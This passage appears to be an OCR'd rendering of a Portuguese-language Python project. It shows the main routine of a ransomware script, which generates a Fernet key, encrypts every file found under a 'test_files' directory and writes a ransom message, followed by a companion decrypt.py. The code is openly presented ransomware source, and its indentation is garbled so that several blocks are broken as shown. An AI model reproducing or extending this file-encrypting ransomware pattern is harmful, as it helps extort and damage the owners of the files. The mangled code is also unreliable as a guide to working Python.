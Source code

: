 ```python
#6. Execução principal
def main():
	gerar_chave()
	chave = carregar_chave()
	arquivos = encontrar_arquivos("test_files")
	for arquivo in arquivos:
		criptografar_arquivo(arquivo, chave)
	criar_mensagem_resgate()
	
print("Ransoware executado com sucesso!\n Arquivos criptografos!")

  

if __name__=="__main__":
	main()

```


decrypt.py
```Python
from cryptography.fernet import Fernet
import os  

def carregar_chave():
	return open("chave.key", "rb").read()

def descriptografar_arquivo(arquivo,chave):
	f = Fernet(chave)
	with open(arquivo, "rb") as file:
		dados = file.read()
		dados_descriptografados = f.decrypt(dados)

with open(arquivo, "wb") as file:
	file.write(dados_descriptografados)
	
def encontrar_arquivos(diretorio):
	lista = []

	for raiz, _, arquivos in os.walk(diretorio):
		for nome in arquivos:
			caminho = os.path.join(raiz, nome)
				if nome != "ransoware.py" and not nome.endswith(".key"):
					lista.append(caminho)
		return lista

  

def main():
	chave = carregar_chave()
	arquivos = encontrar_arquivos("test_files")
	for arquivo in arquivos:
	descriptografar_arquivo(arquivo, chave)
	print("Arquivos restaurados com sucesso")

  

if __name__ == "__main__":

main()


```
